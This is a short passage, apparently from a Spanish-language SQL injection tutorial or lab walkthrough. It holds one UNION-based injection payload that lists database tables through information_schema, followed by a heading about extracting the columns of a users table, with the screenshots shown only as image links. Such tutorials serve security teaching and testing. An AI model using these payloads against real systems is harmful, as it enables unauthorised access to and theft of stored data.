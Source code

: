 ```
' UNION SELECT table_name,NULL FROM information_schema.tables #
```

![](images/09.png)

### Ejemplo 4. Obtener las columnas de la tabla `users`

![](images/07.png)
